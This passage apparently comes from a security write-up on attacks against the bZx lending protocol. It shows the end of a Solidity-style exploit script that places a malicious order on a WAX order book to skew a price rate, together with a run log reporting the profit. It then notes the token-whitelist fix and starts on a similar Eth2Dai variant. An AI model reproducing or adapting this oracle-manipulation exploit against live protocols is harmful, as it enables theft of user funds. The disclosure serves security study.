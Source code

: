 ```
    function cleanup() external {
        require(WAX_ORDER_BOOK.cancelEthToTokenOrder(orderId));
        WAX_ORDER_BOOK.withdrawEther(WAX_ORDER_BOOK.makerFunds(address(this), KYBER_ETH));
        WAX_ORDER_BOOK.withdrawToken(WAX_ORDER_BOOK.makerFunds(address(this), WAX));
        WAX_ORDER_BOOK.withdrawKncFee(WAX_ORDER_BOOK.makerKnc(address(this)));
        DAI.giveAllToUniswap();
        KNC.giveAllToUniswap();
        WAX.giveAllToBancor();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        DAI.getFromUniswap(amount);
    }
}

/*
### running script "bzx-wax-exploit" at block 8455720
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=1.00000000 rate=0.000000000000000000 slippage=0.000000000000000000
##### calling: makeOrder()
making malicious order kncRequired=127.438017578344399080
##### calling: checkRates()
checking rates tokens=1.00000000 rate=10.000000000000000000 slippage=9.700000000000000000
##### calling: borrow()
collateral_required=232.02826470, interest_required=19750.481385867262370788
borrowing loanHash=0x2cca5c037a25b47338027b9d1bed55d6bc131b3d1096925538f611240d143c64
##### calling: cleanup()
##### calling: checkProfits()
profits=1170.851523093083307797
#### finished executing step: exploit
*/
```

##### Solution

The bZx team blocked this attack by whitelisting tokens which can be used as collateral.

#### Eth2Dai

Now that there's a whitelist on the tokens that can be used as collateral, we'll need to through all the permissioned reserves to see if there's anything else that we can abuse. It turns out that DAI, one of the whitelisted tokens, has a permissioned reserve which integrates with Eth2Dai. As Eth2Dai allows users to create limit orders, this is essentially the previous attack but with more steps.

Interestingly, we first observe that although the Eth2Dai contract is titled `MatchingMarket`, it's not strictly true that all new orders will be automatically matched. This is because while the functions `offer(uint,ERC20,uint,ERC20,uint)` and `offer(uint,ERC20,uint,ERC20,uint,bool)` will trigger the matching logic, the function `offer(uint,ERC20,uint,ERC20)` does not.
